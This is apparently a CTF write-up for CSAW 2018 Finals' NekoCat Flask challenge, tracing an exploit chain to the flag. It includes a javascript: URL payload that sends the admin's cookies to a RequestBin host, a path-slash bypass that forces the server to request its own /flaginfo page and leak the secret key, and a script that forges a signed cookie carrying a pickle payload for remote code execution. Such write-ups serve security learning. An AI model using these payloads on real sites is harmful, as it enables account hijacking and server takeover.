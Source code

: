 > Flag is in /flag.txt
> 
> http://web.chal.csaw.io:1003
> 
> Files
> 
> [flagon.zip](https://ctf.csaw.io/files/5d0977e48372db7e81cbf84752a4c511/flagon.zip)

The website is similar to twitter, where users can create and send posts about whatever they want, and everyone else can see them in one complete feed. 

![Imgur](https://i.imgur.com/KoROMvT.png)

Looking at the zip, we see it's the complete source code of the website, and that it's running the Flask web framework. We see some interesting information in [flagon.py](https://github.com/DDOS-Attacks/ctf-writeups/blob/master/2018/CSAW%20CTF%202018%20Finals/Web/NekoCat/flagon/flagon.py):

```python
SECRET_KEY = os.environ.get("FLAGON_SECRET_KEY", "")

...

class Request(BaseRequest):
    @cached_property
    def session(self):
        data = self.cookies.get("session_data")
        if not data:
            return SecureCookie(secret_key=SECRET_KEY)
        return SecureCookie.unserialize(data, SECRET_KEY)
```
The application has a `SECRET_KEY` that it uses to create SecureCookie's. The first thing we need to do is figure out how to get the `SECRET_KEY` so we can sign our own cookies. Once we can sign our own cookies, we can utilize an RCE to get the flag. Because SecureCookie uses [pickle](https://docs.python.org/3/library/pickle.html) by default for serialization, we can exploit the deserialization to execute python code. For more information about python pickle deserialization vulnerabilities, you can visit this [link](https://crowdshield.com/blog.php?name=exploiting-python-deserialization-vulnerabilities).

```python
def flagoninfo(request):
    if request.remote_addr != "127.0.0.1":
        return render_template("404.html")

    info = {
        "system": " ".join(os.uname()),
        "env": str(os.environ)
    }

    return render_template("flaginfo.html", info_dict=info)

class Flagon(object):
    def __init__(self, name):
        self.name = name
        self.url_map = Map([])

        self.routes = {}
        self.wsgi_app = SharedDataMiddleware(self.wsgi_app, {
            '/static': os.path.join(os.getcwd(), 'static')
        })

        flaginfo_route = "/flaginfo"
        self.routes[flaginfo_route] = flagoninfo
        self.url_map.add(Rule(flaginfo_route, endpoint=flaginfo_route))
````
In order to get the value of SECRET_KEY, we have to be able to access http://web.chal.csaw.io:1003/flaginfo. Trying to directly access it returns a 404, which makes sense because according to the source code, we can only view the webpage if our ip address is `127.0.0.1` or localhost. Obviously we aren't localhost, so we need to find a different approach.

In [app.py](https://github.com/DDOS-Attacks/ctf-writeups/blob/master/2018/CSAW%20CTF%202018%20Finals/Web/NekoCat/app.py), we see the following:

```python
@app.route('/report')
@apply_csp
def report(request):
    #: neko checks for naughtiness
    #: neko likes links
    pass
```

This implies that there's some "admin" that automatically will click on any links we have in our post. With these type of problems, you normally want to exploit some type of XSS vulnerability so you can steal an admin's cookies. Normally with XSS vulnerability, you have to be able to inject some javascript into an html tag, but in this question we can only control a link. However, if we look at the csp, there's a way to achieve XSS with only a link:

```python
def apply_csp(f):
    @wraps(f)
    def decorated_func(*args, **kwargs):
        resp = f(*args, **kwargs)
        csp = "; ".join([
                "default-src 'self' 'unsafe-inline'",
                "style-src " + " ".join(["'self'",
                                         "*.bootstrapcdn.com",
                                         "use.fontawesome.com"]),
                "font-src " + "use.fontawesome.com",
                "script-src " + " ".join(["'unsafe-inline'",
                                          "'self'",
                                          "cdnjs.cloudflare.com",
                                          "*.bootstrapcdn.com",
                                          "code.jquery.com"]),
                "connect-src " + "*"
              ])
        resp.headers["Content-Security-Policy"] = csp

        return resp
    return decorated_func
```

For `script-src`, we see that `unsafe-inline` is allowed. Looking at [this](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src) link, it explains what `unsafe-inline` means:

```
'unsafe-inline'
Allows the use of inline resources, such as inline <script> elements, javascript: URLs, inline event handlers, and inline <style> elements. You must include the single quotes.
```

We can use `javascript:` URLs to leverage XSS! A `javascript:` URL will allow us to execute javascript, so we can obtain the admin's cookies. For example if our url was this:

```javascript
javascript:document.location='http://www.google.com/'
```

And the admin clicks on that link, then he would be redirected to www.google.com! Now we construct our own link to steal the admin's cookies. The payload is as follows:

```javascript
javascript:document.location="http://requestbin.fullcontact.com/zfbxyqzf?"+document.cookie
```

![Imgur](https://i.imgur.com/JKVQiIv.png)

RequestBin is a simple site to log HTTP requests, so we can use the service to log the request the admin makes when he clicks on the link, to steal his cookies. AFter creating our post, all we need to do is click on the report link and watch the magic happen.

![Imgur](https://i.imgur.com/KEb29NL.png)

We have successfully obtained the admin's cookies, but what do we do with this now? Also take note of the value of the `Referer` header:

```
Referer: http://127.0.0.1:5000/post?id=20809&instance=cf665777-b943-42ad-bf5e-332f8fc7d2ed
```

The ip address is `127.0.0.1`! This means the admin is running localhost, so we can abuse this to access `/flaginfo`! Looking at [app.py](https://github.com/DDOS-Attacks/ctf-writeups/blob/master/2018/CSAW%20CTF%202018%20Finals/Web/NekoCat/app.py) again:

```python
def get_post_preview(url):
    scheme, netloc, path, query, fragment = url_parse(url)

    # No oranges allowed
    if scheme != 'http' and scheme != 'https':
        return None

    if '..' in path:
        return None

    if path.startswith('/flaginfo'):
        return None

    try:
        r = requests.get(url, allow_redirects=False)
    except Exception:
        return None

    soup = BeautifulSoup(r.text, 'html.parser')
    if soup.body:
        result = ''.join(soup.body.findAll(text=True)).strip()
        result = ' '.join(result.split())
        return result[:280]

    return None
```

Using the `get_post_preview` function, if the link is `http://127.0.0.1:5000/flaginfo`, then we can access the value of `SECRET_KEY`! However looking at the `newpost` function:

```python
@app.route('/newpost')
@login_required
@apply_csp
def newpost(request):
    post = request.form.get('submission-text')
    if (len(post) > 280):
        return redirect('/')

    preview = None
    link = None

    for word in post.split(' '):
        if word.startswith('[link]'):
            link = " ".join(word.split('[link]')[1:]).strip()
            if verified_user(session, request.session.get('username'))[0]:
                preview = get_post_preview(link)
            link = link
            break

    post = post.replace('[link]', '')

    add_post(session, request.session.get('username'), post, link, preview)

    return redirect('/')
```

It seems we have to be a `verified_user` in order to use the `get_post_preview` function. Thankfully, the admin is a verified user! Using the admin's cookies we just stole, we can login as admin and then make a post with the `/flaginfo` link and obtain the value of `SECRET_KEY`. Using the cookie value we had before:

```
session_data="/V38m03gQsL5Q3kswHnyy6dDHUM=?name=gANYCAAAAE5la28gQ2F0cQAu&username=gANYDQAAAG1lb3dfY2Y2NjU3NzdxAC4="
```

We can replace the current value of our `session_data` cookie with this value, and if we reload the page, we're logged in as the admin!

![Imgur](https://i.imgur.com/CFpWEz8.png)

Now we create a post with `http://127.0.0.1:5000///flaginfo` and obtain the value of `SECRET_KEY`. Why are there 3 slashes instead of one in our URL? Because of this check:

```python
if path.startswith('/flaginfo'):
    return None
```

The `path` variable will contain the part of our URL after `http://127.0.0.1:5000`, therefore by injecting more slashes than one, we don't change the actual URL when it's resolved, but it will change the value of `path` when parsing our URL so we can bypass the check. (Theoretically 2 slashes should work, but for some reason I had success with 3 and not 2).

![Imgur](https://i.imgur.com/gOfFJsJ.png)

With our newly created post, we have obtained the value of `SECRET_KEY` as `superdupersecretflagonkey`. We can now sign our own cookies and do on RCE to get our flag. To generate the cookie, we will use this code (note the `username` is the username of the admin that we are logged in as):

```python
import subprocess
from werkzeug.contrib.securecookie import SecureCookie

class a(object):
    def __reduce__(self):
        return (subprocess.check_output, (['cat', 'flag.txt']))

SECRET_KEY = 'superdupersecretflagonkey'

print(SecureCookie({'name':a(), 'username':'meow_cf665777'}, SECRET_KEY).serialize())
```
```
